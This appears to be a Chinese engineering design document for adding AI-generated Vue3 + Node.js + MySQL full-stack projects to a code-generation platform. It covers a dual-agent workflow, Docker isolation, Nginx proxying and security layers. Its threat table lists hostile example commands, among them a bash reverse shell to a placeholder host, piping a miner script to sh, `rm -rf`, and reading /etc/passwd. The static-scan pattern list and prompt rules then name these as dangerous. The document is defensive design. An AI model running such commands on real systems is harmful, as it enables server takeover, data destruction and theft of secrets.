

# 全栈项目生成模块 · 设计与实现

> [!NOTE]
> 这是 2026-09-13 的 v1.1 设计稿，记录全栈生成开始实现前的方案。v1.1 新增了第 5 章的双 Agent 工作流。
> 参见 [开发任务记录](全栈项目生成模块-任务文档.md) 和当前的 [项目启动说明](../README.md#快速开始)。

---

## 1. 需求概述

在现有 AI 代码生成平台上，支持用户**勾选"同步生成 Node.js 后端"**，勾选后：

1. AI 在生成 Vue3 前端的同时，同步生成配套的 Node.js（Express）后端
2. 后端使用 **MySQL** 作为数据库
3. 前后端作为**一个项目**部署启动（一体化，非分离部署）
4. 用户通过对话可以继续修改前后端代码

### 核心验收标准

- 勾选后生成的项目包含 `frontend/` + `backend/` 两部分
- 部署后一个访问入口即可使用完整应用（页面 + API + 数据库）
- 用户对话修改后端代码后，重新部署生效
- **用户无法通过生成的代码危害服务器安全**（见第 7 章）

---

## 2. 现状分析

### 2.1 现有代码生成架构

```
用户对话框输入 prompt
    ↓
AiCodeGenTypeRoutingService（AI 智能路由）
    ↓ 选择 CodeGenTypeEnum
    ├── HTML          → 单文件 HTML
    ├── MULTI_FILE    → 多文件 HTML/CSS/JS
    └── VUE_PROJECT   → Vue3 工程（工具调用模式）
                          ↓
                AiCodeGeneratorServiceFactory（按 appId+type 缓存实例）
                          ↓
                AiCodeGeneratorFacade.generateAndSaveCodeStream()
                          ↓
                TokenStream（流式）→ processTokenStream()
                          ↓
                文件写入工具 FileWriteTool → tmp/code_output/vue_project_{appId}/
                          ↓
                onCompleteResponse → VueProjectBuilder.buildProject()（npm install + build）
```

关键类：

| 类 | 职责 |
|---|---|
| `model/enums/CodeGenTypeEnum.java` | 生成类型枚举 |
| `ai/AiCodeGeneratorService.java` | AI 服务接口（`@SystemMessage` 绑定 prompt） |
| `ai/AiCodeGeneratorServiceFactory.java` | 按类型创建/缓存 AI 服务实例 |
| `core/AiCodeGeneratorFacade.java` | 生成 + 保存统一入口 |
| `ai/tool/FileWriteTool.java` | 文件写入工具，目录 `vue_project_{appId}` |
| `core/builder/VueProjectBuilder.java` | Vue 项目构建（npm install && build） |
| `service/impl/AppServiceImpl.java` | `chatToGenCode()` / `deployApp()` |
| `controller/StaticResourceController.java` | 预览：`/static/{deployKey}/**` |

### 2.2 现有部署架构（Vue 纯前端）

```
预览：/api/static/vue_project_{appId}/   → StaticResourceController 读 tmp/code_output/
部署：deployApp()
        1. VueProjectBuilder.buildProject()  → 生成 dist/
        2. 复制 dist/ → tmp/code_deploy/{deployKey}/
        3. Nginx: location ^~ /dist/ { alias /www/apps/code_deploy/; }
        4. 访问：http://域名/dist/{deployKey}/
```

**这依赖一个前提：产物是纯静态文件。**

### 2.3 全栈项目的挑战（关键差异）

| 维度 | Vue 纯前端 | Vue + Node.js 全栈 |
|---|---|---|
| 产物 | 静态文件（dist/） | 静态文件 + **常驻进程** |
| 运行 | Nginx 直接托管 | 需要 Node.js 进程监听端口 |
| 数据库 | 无 | MySQL 连接 + 初始化 |
| 部署 | 复制文件即完成 | 构建 + 启动进程 + 反代 + 进程管理 |
| 安全面 | 无服务端执行 | **可在服务器执行任意代码（重大风险）** |

> **结论：纯静态部署方案不适用于全栈项目，必须引入容器化/进程托管机制。**

### 2.4 现有 LangGraph4j 基础设施

项目内已有完整的工作流编排能力（`langGrapgh4J` 包），是第 5 章多智能体方案的直接基础：

| 能力 | 现有实现 |
|---|---|
| 工作流编排 | `CodeGenWorkflow`（`MessagesStateGraph` + 节点 + 边） |
| 并行节点 | `CodeGenConcurrentWorkflow`（ImagePlan → 4 个 collector 并行 → aggregator） |
| 状态传递 | `WorkflowContext`（存入 `MessagesState`，key = `workflowContext`，含 `appId` 等） |
| 条件边回环 | `CodeGenWorkflow.routeAfterQualityCheck`（质检失败 → 重新生成） |
| 质检模型 | `QualityResult` + `CodeQualityCheckService/Node` |
| SSE 流式输出 | `WorkflowSseController` + `executeWorkflowWithFlux(prompt, appId)` |
| 节点获取 Bean | `SpringContextUtil.getBean(...)` |

---

## 3. 总体设计

### 3.1 生成流程设计

> 推荐实现为第 5 章的**双 Agent 工作流**；本节描述的单 Agent 流程作为基础/降级方案保留。

```
用户勾选「生成 Node.js 后端」+ 输入需求
    ↓
AppAddRequest.generateBackend = true
    ↓
createApp() → codeGenType = FULLSTACK_VUE_NODEJS（覆盖 AI 路由结果）
    ↓
chatToGenCode() → Facade 按类型分发
    ↓
reasoningStreamingChatModel（推理模型，胜任前后端协同生成）
    ↓
加载 prompt/codegen-fullstack-vue-nodejs-system-prompt.txt
    ↓
AI 工具调用（FileWriteTool）依次生成：
    Phase 1: frontend/ 全部文件（Vue3 工程）
    Phase 2: 扫描/规划前端所需 API（/api/*）
    Phase 3: backend/ 全部文件（Express + Sequelize + MySQL）
    Phase 4: 根目录 README.md、.env.example、docker-compose.yml
    ↓
产物目录：tmp/code_output/fullstack_project_{appId}/
```

### 3.2 生成产物结构

```
fullstack_project_{appId}/
├── api-contract.json             # API 契约（第 5 章双 Agent 方案产出；单 Agent 方案可省略）
├── frontend/                     # Vue3 前端源码
│   ├── src/
│   ├── vite.config.js            # 开发代理 → localhost:3000
│   └── package.json
├── backend/                      # Node.js 后端
│   ├── src/
│   │   ├── app.js                # Express 入口（托管 public/ + /api 路由）
│   │   ├── config/database.js    # MySQL 连接配置（读环境变量）
│   │   ├── db/init.js            # 建表 + 种子数据
│   │   ├── models/               # Sequelize 模型
│   │   ├── routes/
│   │   └── controllers/
│   ├── public/                   # 前端构建产物（build 后复制至此）
│   ├── .env.example
│   └── package.json
├── Dockerfile                    # 容器构建（安全隔离，见第 7 章）
├── docker-compose.yml            # app + mysql 双容器
├── .env.example
└── README.md
```

### 3.3 一体化运行设计（单服务模型）

生产模式下**只启动一个 Node.js 服务**：

```javascript
// backend/src/app.js
app.use('/api', require('./routes'));                      // 1. API 路由
app.use(express.static(path.join(__dirname, '../public'))); // 2. 前端静态文件
app.get('*', (req, res) => {                                // 3. SPA 路由兜底
  res.sendFile(path.join(__dirname, '../public/index.html'));
});
```

- 前端构建产物复制到 `backend/public/`
- 用户访问 `:3000`（或反代域名）即可获得页面 + API
- 开发模式才需要前后端分开（Vite dev server 代理 `/api`）

---

## 4. 生成模块详细设计（单 Agent 基础方案）

> 本章为单 Agent 基础方案。**推荐实现**见第 5 章双 Agent 工作流——本章内容作为其降级方案与组件来源保留。

### 4.1 枚举扩展

`model/enums/CodeGenTypeEnum.java`：

```java
VUE_PROJECT("Vue 工程模式", "vue_project"),
FULLSTACK_VUE_NODEJS("Vue+Node.js 全栈模式", "fullstack_vue_nodejs");
```

产物目录对应 `fullstack_project_{appId}`。

### 4.2 请求与数据模型变更

**AppAddRequest**（`model/dto/app/AppAddRequest.java`）新增：

```java
/**
 * 是否同步生成 Node.js 后端（仅对 Vue 工程模式生效）
 */
private Boolean generateBackend;
```

**App 实体**（`model/entity/App.java`）新增部署相关字段：

| 字段 | 类型 | 说明 |
|---|---|---|
| `generateBackend` | tinyint | 是否全栈项目（0-否 1-是） |
| `nodePort` | int | 部署分配的宿主端口 |
| `containerName` | varchar(64) | Docker 容器名（fullstack_{deployKey}） |
| `containerStatus` | varchar(16) | running / stopped / failed |

**SQL 脚本同步变更：**
- `sql/init.sql`：app 表新增上述 4 个字段（新环境建库）
- `sql/upgrade_fullstack.sql`：存量环境升级脚本（ALTER 语句，开发库/生产库执行）

**createApp() 逻辑调整**（`AppServiceImpl`）：

```java
// 勾选后端时直接指定全栈类型，跳过 AI 路由
CodeGenTypeEnum selectedCodeGenType = Boolean.TRUE.equals(appAddRequest.getGenerateBackend())
        ? CodeGenTypeEnum.FULLSTACK_VUE_NODEJS
        : routingService.routeCodeGenType(initPrompt);
```

### 4.3 Prompt 设计（单 Agent 合并版）

新建 `src/main/resources/prompt/codegen-fullstack-vue-nodejs-system-prompt.txt`。

要点：

1. **角色**：资深全栈架构师（Vue3 + Express + MySQL）
2. **生成顺序**：先生成前端 → 再分析 API → 再生后端（契约对齐）
3. **API 约定**：前端统一请求 `/api/*`；后端统一挂载 `/api`
4. **数据库**：MySQL + Sequelize；提供 `db/init.js`（建表 + 种子数据）；数据库配置全部读环境变量
5. **部署形态**：Express 托管 `public/` + SPA 兜底；产物必须支持容器化运行
6. **安全约束**（必须写入 prompt，见 7.2）
7. **输出约束**：复用现有风格——必须使用文件写入工具、token < 20000、文件数 < 30、不输出安装指导

> 采用第 5 章双 Agent 方案时，此合并 Prompt 拆分为三份：契约设计 Prompt、前端 Agent Prompt（复用现有 Vue Prompt 微调）、后端 Agent Prompt（`codegen-nodejs-backend-system-prompt.txt`）。

### 4.4 服务层改造

**AiCodeGeneratorService** 新增：

```java
@SystemMessage(fromResource = "prompt/codegen-fullstack-vue-nodejs-system-prompt.txt")
TokenStream generateFullstackCodeStream(@MemoryId long appId, @UserMessage String userMessage);
```

**AiCodeGeneratorServiceFactory** 新增 case：

```java
case FULLSTACK_VUE_NODEJS -> {
    StreamingChatModel reasoningModel = SpringContextUtil.getBean(
            "reasoningStreamingChatModelPrototype", StreamingChatModel.class);
    yield AiServices.builder(AiCodeGeneratorService.class)
            .streamingChatModel(reasoningModel)
            .chatMemoryProvider(memoryId -> chatMemory)
            .tools(toolManager.getAllTools())
            .hallucinatedToolNameStrategy(...)
            .inputGuardrails(new PromptSafetyInputGuardrail())
            .build();
}
```

**AiCodeGeneratorFacade** 新增分支：

```java
case FULLSTACK_VUE_NODEJS -> {
    TokenStream codeStream = aiCodeGeneratorService.generateFullstackCodeStream(appId, userMessage);
    yield processFullstackTokenStream(codeStream, appId);
}
```

`processFullstackTokenStream()` 与现有 `processTokenStream()` 类似，差异：

- `onCompleteResponse` 中调用 `DockerProjectBuilder.buildImage(projectPath)`（构建镜像，**不在生成阶段启动容器**）
- 保留流式 tool 消息（写文件过程可视化）

> 采用第 5 章双 Agent 方案时，此接口拆分为：前端复用 `generateVueProjectCodeStream`、后端新增 `generateNodeBackendCodeStream`、契约新增 `ApiContractDesignService`（见 5.4）。

**FileWriteTool** 目录策略需区分类型（当前硬编码 `vue_project_`）：

```java
String relativeFilePath = ...;
// 从工具上下文/线程变量获取当前生成类型，映射目录前缀
// FULLSTACK_VUE_NODEJS → fullstack_project_{appId}
```

> 实现建议：通过线程变量（生成前由 Facade 设置 `CodeGenTypeEnum`）传递，FileWriteTool 内读取。第 5 章双 Agent 方案在此基础上再叠加「Agent 角色目录沙箱」（见 5.5）。

### 4.5 前端改造

**创建应用页**新增勾选框：

```vue
<a-checkbox v-model:checked="form.generateBackend">
  同步生成 Node.js 后端 + MySQL（全栈项目）
</a-checkbox>
```

**AppChatPage.vue**：
- 显示 codeGenType 标签："Vue+Node.js 全栈"
- 部署成功弹窗的访问地址使用相对路径（修正现有 `http://localhost` 的已知问题）
- 双 Agent 方案下：流式输出按 `agentRole` 分栏/标签展示（前端 Agent / 后端 Agent）

---

## 5. 多智能体生成模式（双 Agent 工作流）

### 5.1 方案动机

单 Agent 一次生成前后端存在三个问题（对应第 9 章风险 #1/#2）：

1. **Token 预算互相挤占**：20000 上限要同时装下前端 15+ 文件与后端 10+ 文件
2. **串行耗时长**：前端生成完才能生成后端
3. **契约对齐靠"自觉"**：前端调用与后端实现的一致性只能依赖 Prompt 约束，无校验、无回环

解决方案：**契约先行 + 两个专家 Agent 并行生成 + 代码级契约校验回环**。

### 5.2 可复用的现有基础设施

| 能力 | 现有实现 | 复用方式 |
|---|---|---|
| 工作流编排 | `CodeGenWorkflow`（`MessagesStateGraph`） | 新增 `FullstackCodeGenWorkflow` 同构实现 |
| 并行节点 | `CodeGenConcurrentWorkflow`（并行 collector + aggregator） | 前后端节点并行模式参照 |
| 状态传递 | `WorkflowContext`（`WORKFLOW_CONTEXT_KEY`） | 增加 `apiContract`、`agentOutputs` 等字段 |
| 条件边回环 | `routeAfterQualityCheck`（质检失败 → 重新生成） | 契约校验失败 → 对应 Agent 修复回环 |
| 质检模型 | `QualityResult` + `CodeQualityCheckService` | 契约校验结果复用 `QualityResult` |
| SSE 输出 | `WorkflowSseController.executeWorkflowWithFlux` | 扩展事件 payload（`agentRole` 标识） |
| AI 服务工厂 | `AiCodeGeneratorServiceFactory`（Caffeine 缓存） | cacheKey 增加 Agent 角色维度 |
| 节点依赖注入 | `SpringContextUtil.getBean` | 各节点获取对应 Agent 服务 |

### 5.3 工作流图设计



- architect 节点完成后，frontend / backend 两个节点**并行执行**（LangGraph4j 并发分支）
- 校验不通过时按差异归属**回环到对应 Agent**（不一致在后端路由 → 回 backend；不一致在前端调用 → 回 frontend）
- 修改对话阶段：`modify_router_node` 分类意图后路由到单个 Agent（见 5.5）

### 5.4 节点详细设计

**(1) architect_node（架构师 Agent）**

- 输入：`WorkflowContext.enhancedPrompt`
- 输出：`api-contract.json`（写入项目根目录，同时存入 `WorkflowContext.apiContract`）
- 契约内容：
  - 数据模型（表名、字段、类型、关联）
  - 接口清单（方法 / 路径 / 请求体 / 响应体 / 说明）
  - 统一响应格式 `{ code, data, message }`
- AI 服务：新增轻量 `ApiContractDesignService`（独立 prompt，输出纯 JSON，配合 JSON schema 校验）

**(2) frontend_agent_node（Vue 专家 Agent）**

- AI 服务：复用现有 `AiCodeGeneratorService.generateVueProjectCodeStream`（现有 Vue Prompt 已覆盖工程规范，微调为契约感知）
- 输入注入：enhancedPrompt + api-contract（要求严格按契约中的接口清单调用）
- 工具沙箱：仅可写 `frontend/**`
- 产物：`fullstack_project_{appId}/frontend/`

**(3) backend_agent_node（Node.js 专家 Agent）**

- AI 服务：新增 `generateNodeBackendCodeStream`（新 prompt `codegen-nodejs-backend-system-prompt.txt`，含 7.2 安全约束）
- 输入注入：enhancedPrompt + api-contract
- 工具沙箱：仅可写 `backend/**` + 根目录部署文件白名单（`Dockerfile` / `docker-compose.yml` / `.env.example` / `README.md`）
- 产物：`backend/**`（Express + Sequelize + MySQL）

**(4) contract_check_node（契约校验，双路）**

- 代码级提取（确定性，主体）：
  - 后端路由：扫描 `backend/src/**`（正则提取 `router.get/post/put/delete`、`app.use` 挂载）
  - 前端调用：扫描 `frontend/src/**`（提取 `axios.*` / `fetch` 的 `/api/*` 路径）
  - 与 `api-contract.json` 三方比对，差异写入 `QualityResult.errors`
- AI 语义校验（可选增强）：契约 + 路由清单交给轻量模型判断（参照 `CodeQualityCheckService`）
- 条件边：`通过 → build_node`；`不通过 → 对应 Agent`（将差异描述注入其 prompt，同 `routeAfterQualityCheck` 写法）

**(5) build_node（构建）**

- 前端：`npm install && npm run build` → `dist/` 复制到 `backend/public/`
- 镜像构建：`docker build`（**不启动容器**，部署阶段才启动）
- 复用 `VueProjectBuilder` 能力，新增 `FullstackProjectBuilder`

### 5.5 关键机制设计

**(1) 工具沙箱：Agent 角色目录隔离（必做）**

两个 Agent 并行写文件，必须防止互相踩踏与越权：

```java
public enum AgentRoleEnum { ARCHITECT, FRONTEND, BACKEND }

// 生成前由工作流节点设置；FileWriteTool / FileModifyTool / FileDeleteTool 内校验
AgentContext ctx = AgentContextHolder.get(); // { appId, agentRole, projectDir }
// ARCHITECT → 根目录白名单（api-contract.json）
// FRONTEND  → 强制 frontend/ 前缀
// BACKEND   → 强制 backend/ 前缀 + 根目录部署文件白名单
// 越权写入 → 返回错误信息给 AI（同 hallucinatedToolNameStrategy 兜底风格）
```

**(2) AI 服务与记忆隔离**

- Factory cacheKey：`{appId}_{codeGenType}_{agentRole}`（现为 `{appId}_{type}`）
- 每个 Agent 独立 `MessageWindowChatMemory`：前端记忆只含前端修改史，避免长对话交叉污染

**(3) SSE 流合并**

- 并行节点各自产生 TokenStream → 聚合推送（实现为**共享 `AgentStreamPipe` sink**，等价于在汇聚点 `Flux.merge()`，且天然保证 sink 串行写入）
- 消息体扩展 `agentRole` 字段（取值为 `AgentRoleEnum.value`，小写）：

```json
{ "type": "ai_response",   "agentRole": "frontend", "data": "..." }
{ "type": "tool_executed", "agentRole": "backend",  "id": "...", "name": "...", "arguments": "...", "result": "..." }
```

- 复用现有 `AiResponseMessage` / `ToolExecutedMessage`（加字段），前端按 `agentRole` 分栏/标签渲染；非全栈模式消息不含该字段（Hutool 忽略 null）

**(4) 修改对话的意图路由**

- 新增 `modify_router_node`：判断"改前端 / 改后端 / 都改"
- 单目标 → 直接调对应 Agent（带沙箱与独立记忆的增量修改）
- 涉及接口签名变更时提示用户"两侧需同步修改"（可选增强）

### 5.6 与单 Agent 方案对比

| 维度 | 单 Agent（第 3/4 章） | 双 Agent 工作流（本章） |
|---|---|---|
| 实现复杂度 | 低 | 中（基础设施现成，增量在沙箱 + SSE 合并） |
| Token 预算 | 共享 20000，紧张 | 各 Agent 独立预算 |
| 生成时长 | 串行 | 契约后并行，显著缩短 |
| 契约对齐 | 靠 Prompt 约束 | 契约先行 + 代码级校验 + 失败回环 |
| 修改对话 | 单记忆混用 | 按 Agent 路由，记忆隔离 |
| 可观测性 | 无 | 工作流图（MERMAID）+ 分 Agent 流式输出 |

> **结论：推荐直接采用双 Agent 工作流**（LangGraph4j 投入已深，工作流是顺手路径）。若工期紧张，可先落地第 3/4 章单 Agent 方案作为 M1，双 Agent 作为 M2 演进——但注意修改对话的路由逻辑后期需重写。

---

## 6. 部署设计

### 6.1 部署流程总览

```
点击「部署」
    ↓
① 构建前端：frontend/ → npm install && npm run build → dist/
② 复制 dist/* → backend/public/
③ 生成运行时配置：.env（随机数据库密码、端口）、docker-compose.yml
④ docker compose up -d --build（app 容器 + 独立 MySQL 容器）
⑤ 健康检查：轮询 http://localhost:{port} 直到 200（超时 60s）
⑥ 写入 Nginx 反代配置 + reload
⑦ 返回访问地址 /apps/{deployKey}/
```

### 6.2 Docker 隔离（核心）

**产物中的 docker-compose.yml 模板：**

```yaml
version: '3.8'
services:
  app:
    build: .
    container_name: fullstack_${deployKey}
    restart: unless-stopped
    ports:
      - "${allocatedPort}:3000"
    environment:
      NODE_ENV: production
      DB_HOST: mysql
      DB_PORT: 3306
      DB_NAME: app_db
      DB_USER: appuser
      DB_PASSWORD: ${DB_PASSWORD}
    depends_on:
      mysql:
        condition: service_healthy
    networks: [app_net]
    deploy:
      resources:
        limits: { cpus: '0.5', memory: 512M, pids: 100 }
    cap_drop: [ALL]
    security_opt: ["no-new-privileges:true"]
    read_only: true
    tmpfs: [/tmp]
    volumes:
      - app_logs:/app/logs

  mysql:
    image: mysql:8.0
    container_name: fullstack_${deployKey}_mysql
    restart: unless-stopped
    environment:
      MYSQL_DATABASE: app_db
      MYSQL_USER: appuser
      MYSQL_PASSWORD: ${DB_PASSWORD}
      MYSQL_ROOT_PASSWORD: ${MYSQL_ROOT_PASSWORD}
    networks: [app_net]
    healthcheck:
      test: ["CMD", "mysqladmin", "ping", "-h", "localhost"]
      interval: 5s
      retries: 10
    deploy:
      resources:
        limits: { cpus: '0.3', memory: 256M }
    volumes:
      - mysql_data:/var/lib/mysql

networks:
  app_net:
    driver: bridge

volumes:
  app_logs:
  mysql_data:
```

**产物中的 Dockerfile：**

```dockerfile
FROM node:18-alpine
RUN addgroup -g 1001 appuser && adduser -D -u 1001 -G appuser appuser
WORKDIR /app
COPY --chown=appuser:appuser backend/package*.json ./
RUN npm ci --omit=dev
COPY --chown=appuser:appuser backend/ .
USER appuser
EXPOSE 3000
CMD ["node", "src/app.js"]
```

**要点：**
- 每个应用**独立 MySQL 容器**（数据隔离，无法访问主库或其他应用库）
- 随机密码（16 位），仅写入该应用的 `.env` 与 compose
- 只读根文件系统 + 非 root 用户 + 只读挂载日志卷
- `pids: 100` 防 fork 炸弹；`cpus/memory` 限制防挖矿/资源滥用

### 6.3 Nginx 反向代理

部署时动态生成（参考现有 `/dist` 方案）：

```nginx
# /baiye/1panel/www/sites/ai-code/proxy/apps-{deployKey}.conf
location ^~ /apps/{deployKey}/ {
    proxy_pass http://127.0.0.1:{allocatedPort}/;
    proxy_set_header Host $host;
    proxy_set_header X-Real-IP $remote_addr;
    proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
    proxy_http_version 1.1;
    proxy_set_header Upgrade $http_upgrade;
    proxy_set_header Connection "upgrade";   # 支持 WebSocket（可选）
}
```

- 保留现有 `/dist/`（Vue 纯前端）方案不变
- 新增 `/apps/`（全栈）反代方案
- 双服务器（内网机 + 公网入口机）都要配置（参照现有 `dist` 的落地经验）

### 6.4 端口分配

```java
// 端口范围 3100-3999，落库持久化，重启后仍可恢复
public int allocatePort(Long appId) {
    // 1. 查 app 表已分配端口 → 复用
    // 2. 否则从 3100 起找未占用端口（netstat/SS + 数据库双重校验）
    // 3. 更新 app.node_port
}
```

### 6.5 进程生命周期管理

| 操作 | 实现 |
|---|---|
| 部署 | `docker compose up -d --build` |
| 停用 | `docker compose down`（保留数据卷） |
| 重新部署 | `docker compose up -d --build`（代码已更新） |
| 删除应用 | `docker compose down -v`（连数据卷） + 清理 Nginx 配置 + 释放端口 |
| 崩溃恢复 | compose `restart: unless-stopped`（Docker 守护自动拉起） |

---

## 7. 安全设计

### 7.1 威胁分析（为什么必须容器化）

用户可通过对话要求 AI 修改 Node.js 代码，等价于**在服务器上执行任意 JS**，典型攻击面：

| 攻击 | 示例 | 裸机部署后果 |
|---|---|---|
| 删除文件 | `exec('rm -rf /project/*')` | 平台数据被毁 |
| 读取敏感文件 | `fs.readFileSync('/etc/passwd')` | 信息泄露 |
| 反向 Shell | `exec('bash -i >& /dev/tcp/ip/port 0>&1')` | 服务器被控 |
| 挖矿 | `exec('curl miner.sh \| sh')` | 资源耗尽 |
| 越权访问数据 | 连接主 MySQL / 其他应用库 | 全平台数据泄露 |
| 读取环境变量 | `console.log(process.env)` | 密钥泄露 |
| 攻击内网 | 扫描 192.168.x.x | 横向渗透 |

### 7.2 多层防御体系

#### 第 1 层：Docker 容器隔离（核心，必须）

- 只读根文件系统：`rm -rf /` 只影响容器内临时层
- 非 root 用户运行：`cap_drop: ALL` + 非特权用户
- 独立网络：应用只能访问自己的 MySQL 容器；**禁止访问宿主机网段与内网**
- 资源限制：CPU 0.5 核 / 内存 512M / 进程数 100
- 数据隔离：每个应用独立 MySQL 容器，随机密码

> 补充：如需彻底禁止出网，将 `app_net` 设为 `internal: true`（将同时禁掉 npm 等外网访问，镜像构建阶段不受影响）。

#### 第 2 层：代码静态扫描（前置拦截，辅助）

部署前扫描 `backend/src/**/*.js`，命中高危模式则拒绝部署并提示用户：

```java
private static final List<String> DANGEROUS_PATTERNS = List.of(
    "child_process", "execSync", "spawnSync",
    "eval\\(", "new Function\\(",
    "fs\\.(unlink|rm|rmdir|chmod|chown)",
    "/etc/(passwd|shadow)", "process\\.env\\b",
    "net\\.connect", "dgram", "cluster"
);
```

> 定位为兜底提示而非强依赖（易被编码绕过），以容器隔离为准。

#### 第 3 层：Prompt 安全约束（源头控制）

写入全栈项目 System Prompt（单 Agent 合并版；双 Agent 方案写入后端 Agent Prompt）：

```txt
## 代码安全规范（严格遵守）
禁止生成：
1. child_process / exec / spawn / fork
2. eval() / new Function()
3. 读写 /etc、/root、/proc 等系统目录
4. fs 删除类操作
5. net / dgram 底层网络模块
6. 读取或输出 process.env 中的敏感变量
必须遵守：
1. 仅使用 Express、Sequelize 等框架能力
2. 数据库连接参数只能来自环境变量配置文件
3. 所有用户输入必须校验
```

#### 第 4 层：行为监控 + 处置（运行时）

- 容器资源监控（docker stats 采集）：CPU 持续超阈值 / 内存打满 → 告警并自动重启
- 异常外联：可选启用网络白名单 / `internal` 网络
- 日志审计：nginx access log + 容器 stdout 归档
- 违规处置：暂停容器 → 通知用户 → 严重者封禁账号

#### 第 5 层：协议与合规

- 用户协议明确禁止的行为清单（执行系统命令、挖矿、攻击、越权访问）
- 违规责任声明
- 后台管理员可查看/停用容器（管理端能力）

### 7.3 安全基线检查清单

- [ ] 容器非 root 运行
- [ ] `cap_drop: ALL`
- [ ] 只读根文件系统 + tmpfs
- [ ] CPU/内存/PID 限额
- [ ] 独立 MySQL 容器 + 随机密码
- [ ] 禁止访问宿主内网 / 其他应用网络
- [ ] 部署前静态扫描
- [ ] Prompt 安全约束
- [ ] 容器状态监控与自动处置
- [ ] Nginx 反代与访问日志

---

## 8. 实现步骤（任务拆分）

| # | 任务 | 涉及文件 | 预估 |
|---|---|---|---|
| 1 | 枚举新增 `FULLSTACK_VUE_NODEJS` + `AgentRoleEnum` | `CodeGenTypeEnum.java` / 新枚举 | 1h |
| 2 | AppAddRequest 增字段 + App 实体/表结构变更 | DTO / Entity / SQL | 1h |
| 3 | 架构师 Agent：契约 Prompt + `ApiContractDesignService`（JSON schema 校验 + 解析重试） | prompt / ai 包 | 3h |
| 4 | 后端 Agent Prompt（Node.js 全套规范 + 安全约束）；前端 Prompt 契约化微调 | 2 份 prompt | 4h |
| 5 | FileWriteTool 沙箱改造（`AgentContextHolder` + 角色目录隔离 + 越权拒绝） | 工具类一组 | 3h |
| 6 | `FullstackCodeGenWorkflow` 编排（并行节点 + WorkflowContext 扩展） | `langGrapgh4J` 包 | 4h |
| 7 | 契约校验节点（代码级路由/调用提取 + 差异比对 + 修复回环） | 新节点 + 解析工具 | 4h |
| 8 | SSE 合并输出（`Flux.merge` + 消息加 `agentRole` 字段） | Facade / message 类 | 3h |
| 9 | 前端：勾选框 + 分 Agent 流式展示 + 部署弹窗修正 | 前端 2 个页面 | 3h |
| 10 | 全栈项目构建器（前端 build + 复制 public + 镜像构建） | `FullstackProjectBuilder.java` | 3h |
| 11 | 容器部署器（compose 生成 + 启动 + 健康检查） | `ContainerDeployService.java` | 6h |
| 12 | 端口分配器 | `PortManager.java` | 2h |
| 13 | 动态 Nginx 配置 + reload（双机） | `NginxConfigService.java` | 4h |
| 14 | 代码静态扫描器 | `NodeCodeSecurityScanner.java` | 3h |
| 15 | 容器生命周期接口（停用/删除/重启） | Controller + Service | 3h |
| 16 | 容器监控与告警 | 定时任务 + 告警接入 | 4h |
| 17 | 修改对话意图路由（`modify_router_node`） | 工作流节点 | 3h |
| 18 | 端到端联调（生成→校验→部署→访问→修改→重部署） | — | 8h |

**里程碑：**

- **M1（可演示）**：任务 1-13 —— 勾选生成 → 双 Agent 出前后端 → 契约校验 → 部署到 `/apps/{deployKey}/` 可访问
  - 降级路径：若双 Agent 未就绪，可用第 4 章单 Agent 先打通 9-13
- **M2（可上线）**：+ 任务 14-17 + 安全基线清单全过 —— 具备安全防护、进程生命周期与修改路由
- **M3（增强）**：资源配额可视化、应用日志查看、一键停止、契约人工审核（管理端）

---

## 9. 风险与待决问题

| # | 风险/问题 | 说明 | 建议 |
|---|---|---|---|
| 1 | Token 预算 | 单 Agent 前后端一次生成，20000 上限紧张 | **双 Agent 各自独立预算已解决**（第 5 章）；单 Agent 降级路径下限制文件数 ≤ 30 |
| 2 | 生成时长 | 单 Agent 串行生成耗时约为纯前端 2 倍 | **双 Agent 契约后并行已缓解**（第 5 章） |
| 3 | 镜像构建耗时 | 首次 `docker build` 拉取 node 镜像 + npm ci，可能 3-5 分钟 | 预拉基础镜像到服务器；部署异步化 + 进度轮询 |
| 4 | 磁盘占用 | 每应用一个 MySQL 容器 + 数据卷 | 磁盘配额监控；删除应用时清理卷 |
| 5 | Node 版本兼容 | 服务器 nvm node v24 与容器 node:18 并存 | 容器内版本固定，互不影响 |
| 6 | 双机 Nginx | 内网机 + 公网入口机都要加 `/apps/` 反代 | 参照 `/dist` 落地经验同步配置 |
| 7 | 现有已知 bug | 部署弹窗显示 `http://localhost/{key}/` | 本次一并修正为相对路径 |
| 8 | Docker 依赖 | 当前部署描述中未确认服务器 Docker/compose 权限 | 实现前先核实服务器环境（baiye 已在 docker 组） |
| 9 | MySQL 容器内存 | 每个 MySQL 容器 256M，多应用并发时内存压力 | 限制单用户应用数；或共享 MySQL 实例 + 独立 database + 独立账号 |
| 10 | 契约质量 | 契约 JSON 的稳定性决定前后端对齐质量；架构师节点输出可能格式不符 | JSON schema 校验 + 解析失败自动重试；管理端提供契约人工审核（M3） |
